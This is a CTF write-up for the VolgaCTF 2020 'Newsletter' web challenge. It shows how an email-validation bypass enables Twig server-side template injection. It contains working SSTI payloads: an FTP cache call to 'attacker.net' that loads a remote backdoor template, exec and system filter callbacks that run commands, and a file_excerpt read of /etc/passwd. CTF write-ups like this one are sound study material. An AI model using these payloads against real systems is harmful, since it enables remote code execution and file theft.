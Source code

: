 # web-Newsletter

## Description

Subscribe to our newsletter!

## Solution

Address: http://newsletter.q.2020.volgactf.ru/

The web app had a subscribe function that applied an email address. 
And we could get the source code of the app.

```php
<?php
namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\Mailer\MailerInterface;
use Symfony\Component\Mime\Email;

class MainController extends AbstractController
{
    public function index(Request $request)
    {
      return $this->render('main.twig');
    }

    public function subscribe(Request $request, MailerInterface $mailer)
    {
      $msg = '';
      $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
      if($email !== FALSE) {
        $name = substr($email, 0, strpos($email, '@'));

        $content = $this->get('twig')->createTemplate(
          "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
        )->render();

        $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
        $mailer->send($mail);

        $msg = 'Success';
      } else {
        $msg = 'Invalid email';
      }
      return $this->render('main.twig', ['msg' => $msg]);
    }


    public function source()
    {
        return new Response('<pre>'.htmlspecialchars(file_get_contents(__FILE__)).'</pre>');
    }
}
```

In the code above we see using of **TWIG** template engine. That means that we could try to exploit SSTI vulnerability.

But we have the following filtering function:

```php
$email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
```

With this function we can't use parentheses `( )` and other control symbols.

So for that validation example in PHP exists the bypass trick: https://stackoverflow.com/questions/30810758/is-filter-validate-email-sufficient-to-stop-shell-injection

*"The FILTER_VALIDATE_EMAIL implementation is based on Michael Rushton’s Email Address Validation, which validates the input using the RFC 5321, i. e., the Mailbox production rule."*

*"For example, RFC 5321 allows quoted strings in the Local-part like "…"@example.com."*

With this bypass we can send special symbols except spaces and double quotes.

Try to check it with a burp collaborator client.

```
POST /subscribe HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

email={{_context|json_encode}}@p6w8r8byumewg8qtdzjzacoxgomfa4.burpcollaborator.net
```

Mail content: 
```
...

<p>Hello {&quot;app&quot;:{}}.</p><p>Thank you for subscribing to our newsl= etter.</p><p>Regards, VolgaCTF Team</p> 
```

So, now we can try to retrieve the flag.
But popular RCE vectors didn't work.

Examples:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

The validate filter didn't pass these examples. So, I decided to find a function to read arbitrary files of the system.

On the official site of Twig in the part "Twig Reference from Symfony" I found a suitable function.

```
"{{'/etc/passwd'|file_excerpt(1,300)}}"
```

Flag was in `/etc/passwd` and we could get it.

```
flag:x:1000:1000:VolgaCTF_6751602deea2a308ab611eeef7a4e961:/home/flag:/bin/false
```

Another solutions:

```
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{app.request.query.filter(0,0,1024,{'options':'system'})}} // ?0=cat+/etc/passwd
```
